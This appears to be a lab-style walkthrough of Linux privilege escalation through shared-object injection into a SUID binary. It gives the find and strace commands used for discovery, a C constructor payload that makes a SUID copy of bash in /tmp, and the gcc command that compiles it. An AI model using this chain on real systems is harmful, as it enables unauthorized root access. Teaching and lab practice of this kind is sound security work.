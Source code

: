 #### Identifying SUID Binaries
**Victim's Machine**
```
find / -type f -perm 4000 -ls 2>/dev/null
```
Non-standard binaries located in unusual directories `/usr/local/bin` or `/home`, which might be vulnerable.

#### Analyze the SUID Binary for Vulnerabilities
```
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

	`strace`: This tool is used to trace system calls made by a program and the signals it receive.

#### Exploitation
**Attacker's Machine**
```
mkdir /home/user/.config
cd /home/user/.config
```

**Open a text editor and type:**
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

The code attempts to ***use a constructor function to exploit a vulnerability by injecting a malicious action*** when the program is executed.

**Compile the code**
```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

- `-o /home/user/.config/libcalc.so`: Output file
- `-shared`: Tells the compiler to create a shared library (.so file).
- `-fPIC`: Position Independent Code, which is necessary for creating shared libraries to load at memory addresses.
- `/home/user/.config/libcalc.c`: Input file

**Run the `suid-so` binary**:
```
/usr/local/bin/suid-so
id
```


